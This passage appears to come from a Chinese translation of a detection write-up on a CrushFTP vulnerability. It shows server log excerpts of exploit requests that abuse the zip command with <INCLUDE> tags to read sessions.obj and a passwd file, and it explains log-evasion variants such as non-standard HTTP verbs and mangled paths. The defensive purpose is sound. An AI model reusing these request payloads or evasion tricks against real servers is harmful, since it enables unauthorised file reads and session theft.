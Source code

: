 ```
SESSION|04/22/2024 17:47:35.660|[HTTPS:21_56874:lookup:443] Accepting connection from: 127.0.0.1:56874
SESSION|04/22/2024 17:47:35.660|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *POST /WebInterface/function/ HTTP/1.1*
SESSION|04/22/2024 17:47:35.660|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *Priority: u=0, i*
SESSION|04/22/2024 17:47:35.660|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *command:zip*
SESSION|04/22/2024 17:47:35.661|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *c2f:vndQ*
SESSION|04/22/2024 17:47:35.661|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *path:<INCLUDE>/home/researcher/CrushFTP/CrushFTP10/sessions.obj</INCLUDE>*
SESSION|04/22/2024 17:47:35.661|[HTTPS:21_44192_81T:anonymous:127.0.0.1] READ: *names:/bbb
SESSION|04/22/2024 17:47:35.661|*
SESSION|04/22/2024 17:47:35.691|[HTTPS:21_56874:anonymous:127.0.0.1] WROTE: *HTTP/1.1 200 OK*
SESSION|04/22/2024 17:47:36.367|[21_56874:anonymous:127.0.0.1] *Disconnected:*
```  
  
值得注意的是，这里利用的 zip  
 API 滥用和技术 <INCLUDE>  
 可以换成其他端点和技术。日志中存在包含 {  
 、 }  
 、 <  
 或 >  
 的 READ  
 值应被视为发生利用的主要迹象。攻击者也有可能建立代码执行并清理日志以逃避检测。  
  
CrushFTP 还将接受不符合 RFC 标准的 HTTPS 请求，攻击者可能会利用这些请求来逃避检测。即使提交了任意字符串来代替 HTTPS 谓词，该漏洞也可能被利用。该路径也可以在实现利用的同时进行大量修改。防御者在实施检测时应考虑此行为。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taedn38pjy2DDSDpXRYcowIG6iaYjcIwMjDoKUic1MdmXuDQ1MXg4505jfXibjHojUXQxK97Pg24jcGcw/640?wx_fmt=png&from=appmsg "")  
  
此请求将记录在 CrushFTP.log  
 文件中，并在以下内容中 logs/session_logs/  
 ：  
```
SESSION|04/23/2024 10:11:55.999|[HTTPS:84_33592_PNA:anonymous:127.0.0.1] READ: *AAA BBB TEST/TESTWTESTebInterface/funTESTction/?command=zip&c2f=xIo4&path={<INCLUDE>/var/tmp/passwd</INCLUDE>}&names=/bbb HTTP/1.1*

POST|04/23/2024 10:11:55.999|[HTTPS:84_33592_PNA:anonymous:127.0.0.1] READ: *AAA BBB TEST/TESTWTESTebInterface/funTESTction/?command=zip&c2f=xIo4&path={<INCLUDE>/var/tmp/passwd</INCLUDE>}&names=/bbb HTTP/1.1*
```  
  
请求正文中带有参数的请求似乎需要 POST 谓词才能进行利用。但是，路径仍可以是任意数据，并且这些请求中包含的有效负载将在日志中用星号进行编辑。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taedn38pjy2DDSDpXRYcowIGSLDyQ9kibvTe6DV97Xk8sNJ8J0WHbA60FGBQHJnP6KRLbQLaib75KWKw/640?wx_fmt=png&from=appmsg "")  
  
此请求将记录在 CrushFTP.log  
 文件中，如下 logs/session_logs/  
 所示：  
```
SESSION|04/23/2024 10:35:23.410|[HTTPS:84_56454:lookup:443] Accepting connection from: 127.0.0.1:56454
SESSION|04/23/2024 10:35:23.411|[HTTPS:84_33592_68E:anonymous:127.0.0.1] READ: *POST TEST/TESTWTESTebInterface/funTESTction/ HTTP/1.1*
SESSION|04/23/2024 10:35:23.411|[HTTPS:84_33592_68E:anonymous:127.0.0.1] READ: *Priority: u=0, i*
SESSION|04/23/2024 10:35:23.411|[HTTPS:84_33592_68E:anonymous:127.0.0.1] READ: *command:zip*
SESSION|04/23/2024 10:35:23.411|[HTTPS:84_33592_68E:anonymous:127.0.0.1] READ: *c2f:xIo4*
SESSION|04/23/2024 10:35:23.411|[HTTPS:84_33592_68E:anonymous:127.0.0.1] READ: *path:********
SESSION|04/23/2024 10:35:23.411|[HTTPS:84_33592_68E:anonymous:127.0.0.1] READ: *names:/bbb*
SESSION|04/23/2024 10:35:23.412|[HTTPS:84_56454:anonymous:127.0.0.1] WROTE: *HTTP/1.1 200 OK*

ACCEPT|04/23/2024 10:27:37.610|[HTTPS:84_47426:lookup:443] Accepting connection from: 127.0.0.1:47426
POST|04/23/2024 10:27:37.610|[HTTPS:84_33592_8cj:anonymous:127.0.0.1] READ: *POST /TESTWTESTebInterface/funTESTction/ HTTP/1.1*
```